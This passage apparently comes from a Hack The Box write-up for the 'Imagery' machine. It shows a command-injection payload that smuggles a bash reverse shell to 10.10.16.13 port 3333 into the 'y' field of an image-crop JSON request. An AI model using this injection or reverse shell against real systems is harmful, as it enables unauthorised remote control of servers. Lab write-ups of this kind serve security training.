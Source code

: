 ![Imagery Website Report Bug](/assets/img/imagery-htb-season9/imagery-htb-season9_website-report-bug-20.png)

Modified one of the four values to inject reverse shell.

```bash
; bash -c 'bash -i >& /dev/tcp/10.10.16.13/3333 0>&1'
```

It gonna be like this after modified.

```json
{
    "imageId":"ef3f608b-ee5e-49e5-998d-5b71d8665c38",
    "transformType":"crop",
    "params":{
        "x":0,
        "y":"; bash -c 'bash -i >& /dev/tcp/10.10.16.13/3333 0>&1'",
        "width":736,"height":1104
    }
}
```

